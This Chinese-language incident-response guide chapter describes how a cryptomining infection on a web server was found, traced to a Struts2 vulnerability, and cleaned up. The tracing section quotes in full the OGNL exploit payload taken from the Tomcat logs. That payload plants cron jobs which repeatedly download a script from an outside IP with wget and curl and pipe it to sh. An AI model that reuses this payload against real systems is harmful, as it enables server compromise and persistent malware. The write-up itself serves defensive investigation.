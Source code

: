 # 第3篇：挖矿病毒

## 0x00 前言

​ 随着虚拟货币的疯狂炒作，利用挖矿脚本来实现流量变现，使得挖矿病毒成为不法分子利用最为频繁的攻击方式。新的挖矿攻击展现出了类似蠕虫的行为，并结合了高级攻击技术，以增加对目标服务器感染的成功率，通过利用永恒之蓝（EternalBlue）、web攻击多种漏洞（如Tomcat弱口令攻击、Weblogic WLS组件漏洞、Jboss反序列化漏洞、Struts2远程命令执行等），导致大量服务器被感染挖矿程序的现象 。

## 0x01 应急场景

​ 某天，安全管理员在登录安全设备巡检时，发现某台网站服务器持续向境外IP发起连接，下载病毒源：

![](../.gitbook/assets/linux-12-1.png)

## 0x02 事件分析

### A、排查过程

登录服务器，查看系统进程状态，发现不规则命名的异常进程、异常下载进程 :

![](../.gitbook/assets/linux-12-2.png)

![](../.gitbook/assets/linux-12-3.png)

下载logo.jpg，包含脚本内容如下：

![](../.gitbook/assets/linux-12-4.png)

到这里，我们可以发现攻击者下载logo.jpg并执行了里面了shell脚本，那这个脚本是如何启动的呢？

通过排查系统开机启动项、定时任务、服务等，在定时任务里面，发现了恶意脚本，每隔一段时间发起请求下载病毒源，并执行 。

![](../.gitbook/assets/linux-12-5.png)

### B、溯源分析

​ 在Tomcat log日志中，我们找到这样一条记录：

![](../.gitbook/assets/linux-12-6.png)

对日志中攻击源码进行摘录如下：

`{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='echo "*/20 * * * * wget -O - -q http://5.188.87.11/icons/logo.jpg|sh\n*/19 * * * * curl http://5.188.87.11/icons/logo.jpg|sh" | crontab -;wget -O - -q http://5.188.87.11/icons/logo.jpg|sh').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}`

可以发现攻击代码中的操作与定时任务中异常脚本一致，据此推断黑客通过Struct 远程命令执行漏洞向服务器定时任务中写入恶意脚本并执行。

### C、清除病毒

1、删除定时任务:

![](../.gitbook/assets/linux-12-7.png)

2、终止异常进程:

![](../.gitbook/assets/linux-12-8.png)

### D、漏洞修复

​ 升级struts到最新版本

## 0x03 防范措施

​ 针对服务器被感染挖矿程序的现象，总结了几种预防措施：

```text
1、安装安全软件并升级病毒库，定期全盘扫描，保持实时防护
2、及时更新 Windows安全补丁，开启防火墙临时关闭端口
3、及时更新web漏洞补丁，升级web组件
```

